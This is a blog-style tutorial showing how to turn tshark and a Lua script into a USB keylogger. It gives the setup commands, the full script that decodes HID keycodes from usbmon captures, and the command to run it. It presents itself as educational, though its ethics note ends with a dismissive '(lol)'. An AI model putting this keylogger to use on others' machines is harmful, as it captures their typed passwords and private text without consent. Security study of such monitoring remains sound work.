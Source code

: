 ```yaml
---
layout: post
title:  "Using tshark as a keylogger"
categories: linux tshark hacking
---
```


Have you ever wondered how keyloggers work at a network packet level? In this post, we'll explore how to create a simple USB keylogger using tshark and Lua scripting. This implementation is based on examples from the book "Wireshark for Security Professionals" and serves as an educational demonstration of USB packet analysis.

> **Note**: This tutorial is for educational purposes only. Always ensure you have proper authorization before monitoring any system or network traffic.

## Prerequisites

This tutorial was tested on a Kali Linux ARM64 VM. You'll need:
- Kali Linux (or any Linux distribution)
- tshark installed
- Root access

## Setting Up the Environment

First, install tshark if you haven't already:

```bash
sudo apt install tshark
```

Next, we need to enable USB monitoring. This is done by loading the usbmon kernel module:

```bash
sudo modprobe usbmon
```

## The Keylogger Script

Create a file named `keysniffer.lua` with the following Lua script. This script processes USB packets and maps them to keystrokes using the USB HID Usage Tables specification:

```lua
--we want to capture usb data for each packet
local usbdata = Field.new("usb.capdata")
--the listener function, will create our tap
local function init_listener()
  print("[*] Started KeySniffing…\n")
  --only listen for usb packets
  local tap = Listener.new("usb")

  --called for every packet meeting the filter set for the Listener(), so usb packets
  function tap.packet(pinfo, tvb)
    --list from http://www.usb.org/developers/devclass_docs/Hut1_11.pdf
    local keys = "????abcdefghijklmnopqrstuvwxyz1234567890\n??\t -=[]\\?;??,./"
    --get the usb.capdata
    local data = usbdata()
    --make sure the packet actually has a usb.capdata field
    if data ~= nil then
      local keycodes = {}
      local i = 0
      --match on everything that is a hex byte %x and add it to the table
      --this works b/c data is in format %x:%x:%x:%x
      --it is effectively pythons split(':') function
      for v in string.gmatch(tostring(data), "%x+") do
        i = i + 1
        keycodes[i] = v
      end
      --make sure we got a keypress, which is the 3rd value
      --this works on a table b/c we are using int key values
      if #keycodes < 3 then
        return
      end
      --convert the hex key to decimal
      local code = tonumber(keycodes[3], 16) + 1
      --get the right key mapping
      local key = keys:sub(code, code)
      --as long as it isn't '?' lets print it to stdout
      if key ~= '?' then
        io.write(key)
        io.flush()
      end
    end
  end

  --this is called when capture is reset
  function tap.reset()
    print("[*] Done Capturing")
  end

  --function called at the end of tshark run
  function tap.draw()
    print("\n\n[*] Done Processing")
  end
end

init_listener()
```

## Running the Keylogger

With everything set up, you can now run the keylogger using:

```bash
tshark -Q -i usbmon3 -Xlua_script:keysniffer.lua
```

Now press some keys on the keyboard on interface 3 and see the output in the terminal.

The command breakdown:
- `-Q`: Quiet mode (no packet information displayed)
- `-i usbmon3`: Monitor USB interface 3 (you can change this to usbmon0, usbmon1, etc. use lsusb to find your device interface)
- `-Xlua_script:keysniffer.lua`: Load our Lua script

## How It Works

The script works by:
1. Creating a listener for USB packets
2. Extracting the USB capture data from each packet
3. Parsing the keycodes using the USB HID Usage Tables
4. Converting the keycodes to their corresponding characters
5. Outputting the captured keystrokes in real-time

## Ethical Considerations

Remember that keyloggers can be used maliciously. This tutorial is meant for educational purposes and security research only. Always:
- Obtain proper authorization before monitoring any system
- Follow your local laws and regulations
- Use these skills ethically and responsibly (lol)

## References

This implementation is based on examples from ["Wireshark for Security Professionals"](https://computerscience.unicam.it/marcantoni/reti/laboratorio_wireshark/Wireshark%20for%20Security%20Professionals%20-%20Using%20Wireshark%20and%20the%20Metasploit%20Framework.pdf), which provides excellent insights into network security analysis using Wireshark and related tools.

